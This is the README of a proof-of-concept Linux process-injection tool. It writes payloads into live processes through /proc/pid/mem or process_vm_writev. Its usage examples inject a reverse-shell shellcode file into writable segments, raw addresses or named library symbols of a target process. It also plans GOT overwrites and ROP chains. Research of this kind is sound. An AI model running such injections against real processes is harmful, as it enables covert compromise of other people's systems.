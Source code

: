 # Livefect

Livefect is a PoC tool to play around with `/proc/pid/mem`, `process_vm_readv` and `process_vm_write` as alternatives ways of injecting into processes without using `ptrace` directly.

Technically we still need the same privileges to use this as we need for `ptrace` but I mean, why not.
It was fun to play around with this as I had to learn about ELF, shellcodes and Linux in general.

Excuse the terrible C code, it has been so long since I actually wrote anything in it.

I literally have no idea why I did this or if this is useful in any way or form. Enjoy :).

Some scenarios where this might be helpful:
   - Overwrite of a function's code with our payload is necessary (see options -e, -S, --symbol, --library)
   - Overwrite of executable data is necessary (i.e. modify a variable's dlsym value to an arbitrary address)
   - Overwrite of data (i.e. values which control process flow)


## TODOs and possible new features
   - Rewrite code to be less messy
   - When segment to rwx mem is found, write payload at given address (-a), then pad the rest of the mapped area with `jmp address`, to maximize a chanche of execution
   - Find PLT/GOT entries of in-memory/loaded modules, overwrite address (this should be possible on RELRO binaries if the library is loaded at runtime) 
   - See if feasable/useful allow reading ROP gadget addresses from file, file format could be something like that:
   ```
   0x123456 // write first gadget here
   0xff1122 // this is the first gadget
   0x88eeaa // this is the second gadget
   0x1122da // this is the third gadget
   ...
   ...
   ```
   - It'd be very cool if it could also look for XREFs in the binary to identify possible injection points
   ```
   Get ELF
   Disassemble and find XREFs
   Fix offsets
   Find all segments with specified permissions (i.e. rwx)
   Return output of 
   ADDR     XREF_COUNT
   0x123    1
   0x456    12
   0x789    234         //then one can further inspect this addr, see if it's a function (--disams) and write here (-a 0x789)
   ```
   - Regex filters for function and export names
   - iovecs splitting if payload is > page_size (jump added at pagesize_bytes-jmpsize to jmp to next available area)

## Compile
To compile `livefect`, capstone is needed. Just run:

```
make # make livefect with all features and victim program

make victim # make the victim program to play around

make no-capstone # TODO: build livefect without --disasm and --disasm-bytes
```

## Usage
You will likely need to be `root` to run this.
```
Livefect = Infect live, running processes
Usage: ./livefect [opts]
        -h --help:              show this help message
        -V --process-vm:        use process_vm_writev instead of /proc/[pid]/mem
        -p --pid PID:           run against specified pid (default: NULL)
        -f --file FILE:         file containing data to write/payload (default: NULL)
        -a --addr ADDR:         (raw mode) address to write data/payload to
        -v --verbosity LEVEL:   set verbosity level (default: 0)
        -P --perms PERMS:       which permissions to look for (default: rwxp)
        -S --func-only:         only display function symbols
           --symbol SYMBOL:     write FILE to all symbols with name SYMBOL
           --library LIBRARY:   to use with --symbol allow write to specific SYMBOL from specific LIBRARY
        -D --data-only:         only display data symbols
        -I --inject-all:        (potentially unsafe) force payload injection in any matching memory area
        -m --maps:              only list memory maps
           --disasm N:          (implies -m) try disassemble the first N instructions and show output (default: 0)
           --disasm-bytes N:    (implies -m) bytes to pass to disassembler (default: 64)
        -e --exports:           only list exported functions
        -F --force-disk:        force ELF exports lookup from disk
        -s --skip-root:         do not enforce root checks

Made while screaming in *PANIC* by @thatsn0mysite (https://thatsn0tmy.site)
```

### Recon
To simply display interesting segments we can use the `-m` or `-e`, to show memory segments and exports and quit. No writing is done (unless **raw mode** is on). 
```
./livefect -me --pid 123
```

### Auto-mayhem
The simplest usage is to just run `livefect` with a payload as such:
```
./livefect -f shellcodes/reverse_shell 

```

this will attempt to find all writable segments containing exports and write our payload there, in ALL of em.

### Controlled-mayhem
Another basic usage is using `livefect`'s **raw mode**:
```
./livefect -f shellcodes/reverse_shell -a 0x7fb75ed44109
``` 

this will attempt to write our payload at the specified address.

### Filters
Some basic filtering has been implemented to semplify injection. For example to write payload at the address of symbol `test_func` we can use the `--symbol` and `--library` flags along with `-P`:
```
./livefect -f shellcode/reverse_shell --symbol test_func --library /usr/lib/test.so -P "r*x*" --pid 123
```

if we are lucky, this will write our payload into the `test_func` of library `/usr/lib/test.so` from pid `123`, `-P` specifies the permissions we are looking for, using `proc maps` format.  